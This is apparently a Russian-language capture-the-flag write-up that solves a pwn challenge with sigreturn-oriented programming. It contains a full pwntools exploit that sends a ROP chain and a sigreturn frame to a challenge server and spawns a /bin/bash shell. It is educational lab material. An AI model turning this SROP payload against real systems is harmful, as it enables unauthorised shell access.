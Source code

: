 
1. Откроем файл task и увидим в функции main() следующее содержимое:
```

void entry(void)

{
  syscall();
  return;
}

```
2. Видим syscall и понимаем, что нам нужен SROP для решения.
3. В самом конце файла записана строка `/bin/bash` которая и должна быть передана в качестве аргумента для `syscall`
4. Находим подходящую статью по SROP в учебнике по PWN - [вот ссылка](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop)
5. Пример в статье очень напоминает нам наш файл.
   Вот как это выглядит в статье:
   ```
   from pwn import *

    context.arch = 'amd64'
    context.os = 'linux'
    
    elf = ELF.from_assembly(
        '''
            mov rdi, 0;
            mov rsi, rsp;
            sub rsi, 8;
            mov rdx, 500;
            syscall;
            ret;
            
            pop rax;
            ret;
        ''', vma=0x41000
    )
    elf.save('vuln')
    ```
   И вот как у нас:
   ```
   00041000 48 c7 c7        MOV        RDI,0x0
         00 00 00 00
   00041007 48 89 e6        MOV        RSI,RSP
   0004100a 48 83 ee 08     SUB        RSI,0x8
   0004100e 48 c7 c2        MOV        RDX,0x1f4
         f4 01 00 00
   00041015 0f 05           SYSCALL
   00041017 c3              RET
   00041018 58              POP        RAX
   00041019 c3              RET
   ```
6. Пишем эксплойт по гайду и получаем такой код:
```
from pwn import *

elf = context.binary = ELF('./task', checksec=False)
p = remote('192.168.12.13', 1555)

BINSH = elf.address + 0x1430
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b  
frame.rdi = BINSH          
frame.rsi = 0x0          
frame.rdx = 0x0           
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

